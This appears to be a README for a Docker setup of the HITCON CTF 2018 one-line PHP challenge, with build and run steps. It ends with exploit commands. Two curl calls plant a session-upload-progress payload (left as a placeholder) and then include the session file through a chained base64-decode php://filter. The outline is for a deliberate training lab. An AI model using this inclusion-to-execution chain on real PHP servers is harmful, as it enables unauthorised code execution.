 # hitcon-ctf-2018-one-line-php-challenge
https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2018/one-line-php-challenge

## Getting started
### Build

```
$ docker build -t hitcon .
```

### Run

```
$ docker run --rm -it -p 8000:80 hitcon
```

Visit http://localhost:8000


### Exploit

```
$ export PHPSESSID=foo
$ curl http://127.0.0.1:8000/ -H "Cookie: PHPSESSID=$PHPSESSID" -F 'PHP_SESSION_UPLOAD_PROGRESS=[YOUR_PAYLOAD]' -F 'file=@/etc/passwd'
$ curl "http://127.0.0.1:8000/?orange=php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/tmp/sess_$PHPSESSID"
```
